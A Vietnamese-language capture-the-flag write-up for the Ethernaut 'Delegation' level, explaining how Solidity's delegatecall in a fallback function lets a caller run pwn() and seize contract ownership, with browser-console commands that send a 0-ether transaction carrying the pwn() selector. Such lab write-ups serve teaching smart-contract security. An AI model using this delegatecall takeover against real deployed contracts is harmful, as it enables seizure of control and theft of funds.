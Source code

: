 ```js
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

### Phân tích

- Để từ trong contract này gọi hàm của contract khác, ngoài cách dùng instance của contract khác để gọi, solidity cung cấp cho ta một số hàm _low-level_ khác để thay thế: đó là `call` và `delegatecall`. Ngay từ chú thích _low-level_ ta đã biết rằng đây là những hàm _nguy hiểm_ rồi, nên việc hiểu rõ cách sử dụng chúng là một điều tất yếu.
- Việc giải thích cụ thể về `call` và `delegatecall` khá dài và nằm ngoài phạm vi bài viết. Bạn có thể đọc thêm [tại đây](https://ethereum.stackexchange.com/questions/3667/difference-between-call-callcode-and-delegatecall). Cơ bản thì `delegatecall` chỉ mượn tên hàm của contract khác, mọi thông tin về storage vẫn là storage của contract đang sử dụng.
- Contract _Delegate_ có hàm `pwn()` để trao quyền owner, vậy mục tiêu của chúng ta là làm sao để kích hoạt được hàm này.
- Contract _Delegation_ có fallback function sử dụng `delegatecall`, nó gợi ý cho chúng ta trigger fallback với msg.data chính là hàm `pwn()`
- Dù _fallback function_ trong contract _Delegation_ không có payable, nghĩa là không thể nhận ether, ta vẫn có thể kích hoạt được nó bằng cách send cho nó _0 ether_, thật là vi diệu!
- Về _fallback function_, các bạn có thể tham khảo thêm tại [documentation của Solidity](http://solidity.readthedocs.io/en/v0.4.21/contracts.html#fallback-function) hoặc tại bài viết [phần 1](https://viblo.asia/p/blockchain-hacking-smart-contract-with-ethernaut-ctf-part-1-bWrZnN8pZxw)
- Một lưu ý về _msg.data_: để truyền vào hàm `pwn()`, ta không phải truyền plain text, mà solidity sẽ gọi bằng _bytes4 hash_ của nó, tức 4 byte đầu của chuỗi `hash("pwn()")` cụ thể ta sẽ phải truyền vào tham số như sau: `web3.sha3("pwn()").slice(0, 10)`

### Solution

- Trên Chrome console, kiểm tra contract owner:

```js
await contract.owner()
```

- Send 0 ether kèm data để trigger fallback:

```js
await contract.sendTransaction({ data: web3.sha3('pwn()').slice(0, 10) })
```

- Kiểm tra lại contract owner xem đã là mình chưa:

```js
await contract.owner()
```

- Submit & all done!
